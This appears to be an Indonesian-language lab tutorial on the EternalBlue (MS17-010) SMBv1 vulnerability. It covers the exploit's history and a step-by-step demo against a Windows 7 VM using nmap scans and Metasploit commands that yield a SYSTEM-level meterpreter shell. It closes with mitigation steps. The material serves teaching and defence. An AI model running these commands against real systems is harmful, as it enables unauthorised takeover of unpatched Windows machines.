









# Sejarah (Singkat)

Apa itu Eternalblue?

Eternalblue atau oleh Microsoft disebut dengan MS17-010 adalah sebuah [**exploit**](https://en.wikipedia.org/wiki/Exploit_(computer_security)) yang dapat digunakan untuk menyebarkan ***malware*** pada sebuah mesin Windows. Eternalblue adalah eksploit yang pada awalnya ditemukan oleh [NSA (_National Security Agency_) Amerika Serikat](https://www.nsa.gov/) untuk memanfaatkan kerentanan pada SMB v1 (_Server Message Block_ versi 1)  di Windows, terutama pada Windows 7 dan Windows XP.[^1] 

Exploit ini tidak dilaporkan oleh NSA ke pihak Microsoft karena menguntungkan pihak NSA untuk melakukan mata-mata terhadap lawan-lawan politiknya. Ketika NSA mengetahui bahwa ternyata exploit tersebut sudah bocor (dicuri), Microsoft akhirnya mengumumkan *security pacthes* terhadap kerentanan atau *vulnerability* tersebut pada Maret 2017. Exploit tersebut dibocorkan kepada publik oleh sebuah kelompok ***hacker*** bernama [The Shadow Brokers](https://en.wikipedia.org/wiki/The_Shadow_Brokers) pada April 2017. Segera setelah rilisnya exploit tersebut ke publik, pada May 2017, dilaporkan [*ransomware* Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack) mulai menginfeksi banyak komputer di seluruh dunia menggunakan exploit Eternalblue tersebut[^2].

# Demo Exploitasi - Offensive

Saya akan memberikan demo eksploitasi kerentanan SMBv1 ini menggunakan exploit Eternalblue (MS17-010) yang sudah terdapat dalam [Metasploit](https://www.metasploit.com/). 
Secara singkat, Metasploit adalah sebuah ***framework*** berbasis [*open-source*](https://en.wikipedia.org/wiki/Open_source) yang digunakan untuk *exploit development* dan *vulnerability research*.


Kita akan melakukan setidaknya 3 proses untuk melakukan eksploitasi, yaitu
- Recon
- Vulnerability Scanning, dan
- Exploitation

## Recon

Di sini, saya sudah memiliki sebuah mesin VM *(Virtual Machine)* Windows 7 sebagai target yang akan dieksploitasi kerentanan SMB-nya.
Pada tahap ini, kita akan terlebih dahulu melakukan *reconnaissance* atau pemeriksaan (atau dalam bahasa militernya adalah mata-mata) terhadap target yang akan dieskploitasi. 
Hal yang perlu dipastikan dalam tahap dan konteks ini adalah bahwa **_service_ SMBv1 berjalan di mesin target**.


Saya akan menggunakan [Nmap](https://nmap.org/) untuk melakukan proses recon ini.
```bash
nmap -vv -sV 192.168.0.120 -o result.nmap
```


Dari hasil Nmap tersebut, kita tahu bahwa _service_ SMB sedang *running*. 

Port *`139`* dan *`445`* adalah port default untuk menjalankan _service_ SMB ini.


## Vulnerability Scanning

Setelah mengetahui bahwa target mesin tersebut (Windows 7) menjalankan SMB, sekarang, kita akan melakukan _vulnerability scanning_ untuk melihat, apakah SMB tersebut rentan untuk dieksploitasi.

Untuk tahap ini, saya lagi-lagi akan menggunakan Nmap dengan script `smb-vuln-ms17-101.nse` yang juga terdapat di **/usr/share/nmap/scripts**.
```bash
nmap -vv -sV --script=smb-vuln-ms17-010.nse -p139,445 192.168.0.120 -o vuln.nmap
```

Ya, berdasarkan hasil *scanning* Nmap, kita tahu bahwa *service* SMB tersebut rentan (*vulnerable*) terhadap eksploitasi Eternalblue.

## Exploitation

Sekarang, kita akan melakukan eksploitasi terhadap kerentanan tersebut.
Saya akan menggunakan Metasploit sebagai *tools* dalam melakukan tahap eksploitasi ini. 

Pertama, kita dapat menjalankan Metasploit dengan mengetikkan perintah
```bash
msfconsole -q
```

Selanjutnya, kita akan mencari modul eksploit Eternalblue dan menginputkan IP Address target mesin kita (Windows 7) ke opsi **RHOSTS**.
```bash
msf6> search eternalblue
msf6> use 0
msf6> set rhosts 192.168.0.120
```


Kita bisa memastikan semua opsi untuk melakukan eksploitasi di modul Eternalblue (MS17-010) ini sudah terpenuhi dengan mengetikkan perintah berikut:
```bash
msf6> options
```

Lingkaran yang berwarna merah adalah IP target kita (Windows 7). Adapun lingkaran yang berwarna hijau adalah IP mesin *attacker* kita (Kali Linux).

Untuk memulai eksploitasi, kita dapat mengetikkan perintah
```bash
msf6> exploit
```
atau
```bash
msf6> run
```


Yapp, kita baru saja berhasil mengeksploitasi SMBv1 dengan eskploit Eternalblue (MS17-010)!!!

Ketika kita sudah mendapatkan shell tersebut (meterpreter), kita sebagai *attacker* sudah dapat melakukan apa saja, mulai dari melakukan *screenshot*, *screen recording*, *camera recoding*, dan lain-lain yang pada intinya, kita sudah seperti memiliki atau memegang komputer atau laptop dengan Windows 7 tersebut!

Apalagi, kalau diperhatikan, Eternalblue ini memberikan kita akses shell dengan *privilege* yang tinggi (nt authority\system32) atau root jika di Linux. Artinya, kita benar-benar sudah menguasai mesin korban tersebut.

Dengan melihat kemudahan eksploitasinya dan dampak aksesnya, kita bisa menyimpulkan bahwa eksploit ini sangat berbahaya sekali, bukan?

# Pencegahan - Defensive

Beberapa hal yang dapat kita lakukan sebagai tindakan preventif terhadap exploitasi Eternalblue ini di Windows 7 yaitu:
1. Mematikan *service* SMBv1, apalagi jika kalian tidak sering (atau bahkan) tidak pernah menggunakan *service* ini untuk *file sharing*. 
Cara menonaktifkan SMBv1 dapat dilakukan dengan mengetikkan perintah berikut di Powershell[^3]:
```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 0 -Force
```
2. Selain itu, kalian juga perlu memastikan Firewall tidak dihidupkan disembarang jaringan, apalagi jaringan publik. Kalau perlu, hidupkan saja firewallnya, baik di *private* maupun di *public network*.


Ok, sekian dulu untuk tutorial eksploitasi Eternalblue (MS17-010) kali ini.

Terima kasih!


[^1]: https://nordvpn.com/blog/what-is-eternalblue/
[^2]: https://en.wikipedia.org/wiki/EternalBlue
[^3]: https://learn.microsoft.com/id-id/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
